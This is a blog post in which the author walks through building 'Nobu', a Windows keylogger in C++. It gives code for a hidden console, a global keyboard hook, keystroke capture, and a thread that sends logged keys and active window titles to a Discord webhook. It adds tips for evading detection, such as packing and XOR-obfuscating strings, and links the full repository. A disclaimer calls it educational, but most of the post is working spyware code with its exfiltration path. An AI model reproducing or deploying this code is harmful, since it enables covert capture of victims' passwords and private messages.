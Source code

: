 ```yaml
---
title: "Building My First Malware: Nobu.exe"
date: 2025-07-09 23:00:00 +0800
categories: [maldev]
tags: [cpp, discord, winapi, keylogger]
image:
  path: assets\Mal1\tir.jpg
  alt: Terror in resonance
---
```


> "Playing a game by youself is boring. You need a loser to crush so badly they can't recover." - Five
{: .prompt-quote }

Okay so I made a keylogger

Let’s be real for a second. After years of watching malware analysts dissect absolute garbage-tier EXEs made by script kiddies with too much free time and a cracked copy of Visual Studio, I thought: Hey. I can do that. Except less garbage. More cursed.
And here we are: a fully functioning Windows keylogger that lives in the shadows, siphons keystrokes like a digital vampire, and dumps the loot into a Discord webhook like it's sending confessions at 3AM.

All of this, by the way, is for educational purposes. Do not be a dumbass.

## The Anatomy of a Keylogger

### 1. Go Ghost or Go Home

```cpp
// Hide console window
void Stealth() {
#ifdef invisible
    HWND hwnd = GetConsoleWindow();
    if (hwnd) {
        ShowWindow(hwnd, SW_HIDE);
        FreeConsole();
    }
#endif
}

// Single instance check
hMutex = CreateMutexW(NULL, TRUE, L"Global\\MyKeyloggerMutex");
if (GetLastError() == ERROR_ALREADY_EXISTS) {
    if (hMutex) CloseHandle(hMutex);
    return 0;
}
```
{: .nolineno }

Hide the console. Check if there's already a clone of this malware running. If so, exit quietly like a ninja

---

### 2. Keyboard Hook Setup

```cpp
// Keyboard hook callback
LRESULT CALLBACK HookCallback(int nCode, WPARAM wParam, LPARAM lParam) {
    if (nCode >= 0 && wParam == WM_KEYDOWN) {
        KBDLLHOOKSTRUCT* kbdStruct = reinterpret_cast<KBDLLHOOKSTRUCT*>(lParam);
        Save(kbdStruct->vkCode);
    }
    return CallNextHookEx(_hook, nCode, wParam, lParam);
}

void SetHook() {
    _hook = SetWindowsHookEx(WH_KEYBOARD_LL, HookCallback, NULL, 0);
}
```
{: .nolineno }

We jam a hook straight into WH_KEYBOARD_LL. This means every key, across the OS, goes through us. That’s right, whether you’re writing an email or confessing to murder in Notepad, I see it all.

---

### 3. Key Processing and Special Characters

```cpp
const std::map<int, std::string> keyname{
    {VK_BACK, "[BACKSPACE]"},
    {VK_RETURN, "\n"},
    {VK_SPACE, " "},
    // ... other special keys ...
};

int Save(int key_stroke) {
    std::string keystr;
    if (keyname.find(key_stroke) != keyname.end()) {
        keystr = keyname.at(key_stroke);
    } else {
        char key = MapVirtualKeyA(key_stroke, MAPVK_VK_TO_CHAR);
        if (key > 0) {
            keystr = std::string(1, key);
        }
    }
    // Append to buffer...
}
```
{: .nolineno }

You need to process it before storing. Special characters get converted. Everything else gets flushed into the buffer

---

### 4. Data Exfiltration to Discord

```cpp
bool SendToDiscord(const std::string& window_title, const std::string& keystrokes) {
    std::string json =
    "{"
    "   \"embeds\": [{"
    "       \"title\": \"Keystroke Capture\","
    "       \"color\": 16711680,"
    "       \"fields\": ["
    "           { \"name\": \"Active Window\", \"value\": \"" + EscapeJson(window_title) + "\", \"inline\": false },"
    "           { \"name\": \"Character Count\", \"value\": \"" + std::to_string(keystrokes.size()) + "\", \"inline\": true },"
    "           { \"name\": \"Logged Data\", \"value\": \"```" + EscapeJson(keystrokes) + "```\", \"inline\": false }"
    "       ],"
    "       \"timestamp\": \"" + GetISO8601Time() + "\""
    "   }]"
    "}";
    // HTTP POST via WinHTTP
}
```
{: .nolineno }

Look, spinning up a whole command-and-control server is effort, and I already wasted enough braincells. Discord webhooks? Easy. Fast. Fancy JSON. Stealthy as hell (unless you just dump the webhook link as a whole). Just make sure not to hit rate limits or maybe you enjoy watching logs disappear into the void.

![Webhook Output](assets\Mal1\jeba.png){: .normal w="700" h="300" style="border-radius: 16px;" }


---

### 5. Threading and Buffering

```cpp
std::string buffer;
std::mutex buffer_mutex;

void DiscordSender() {
    while (running) {
        Sleep(SEND_INTERVAL * 1000);
        
        std::string copy_keystrokes;
        std::string copy_window_title;
        {
            std::lock_guard<std::mutex> lock(buffer_mutex);
            if (buffer.empty()) continue;
            
            copy_keystrokes = buffer;
            copy_window_title = buffer_window_title;
            buffer.clear();
        }
        SendToDiscord(copy_window_title, copy_keystrokes);
    }
}
```
{: .nolineno }

Thread A logs your filthy typing habits. Thread B dumps it to Discord every few seconds. This is the digital equivalent of whispering secrets to a demon in the basement.

---

## Key Techniques and Challenges

### Evading Detection (add your self)

> + No file writes = no breadcrumbs
> + HTTPS = hide in plain sight
> + No registry = less whining
> + CPU use is subatomic
> + XOR your strings or obfuscate if you're paranoid, use packer or smthg

---

## What I Learned
- How keyboard hooks actually work
- Basic WinHTTP usage
- Thread sync with mutexes
- Buffering vs streaming exfiltration

---

## Sum up

This project made me realize something horrible and beautiful: malware is easy. Terrifyingly easy.
A few lines of C++, a bit of WinAPI black magic, and you’ve got a fully operational surveillance drone.
So... maybe trust less. Click less.
And always check your Task Manager for that one weird mutex.

---

> **GitHub Repo:**  
> [Nobu](https://github.com/FanzyBear/Nobu)
{: .prompt-info }


---